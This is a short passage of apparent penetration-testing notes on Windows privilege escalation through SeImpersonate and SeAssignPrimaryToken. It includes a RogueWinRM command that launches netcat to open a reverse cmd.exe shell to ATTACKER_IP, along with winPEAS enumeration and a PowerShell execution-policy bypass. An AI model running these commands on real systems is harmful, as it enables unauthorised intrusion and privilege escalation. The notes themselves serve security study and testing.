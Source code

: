   

# Private: SeImpersonate / SeAssignPrimaryToken

# These privileges allow a process to impersonate other users and act on their behalf. Impersonation usually consists of being able to spawn a process or thread under the security context of another user.

  

# To elevate privileges using such accounts, an attacker needs the following: 

# 1. To spawn a process so that users can connect and authenticate to it for impersonation to occur. 

# 2. Find a way to force privileged users to connect and authenticate to the spawned malicious process.

  

# Eg. use RogueWinRM exploit to accomplish both conditions.

# Run the exploit

RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"

  

Enumerate escalation options:

  

# WinPEAS: [https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

winpeas.exe > outputfile.txt

  

  

# PrivescCheck.ps1: [https://github.com/itm4n/PrivescCheck](https://github.com/itm4n/PrivescCheck)

PS C:\> Set-ExecutionPolicy Bypass -Scope process -Force
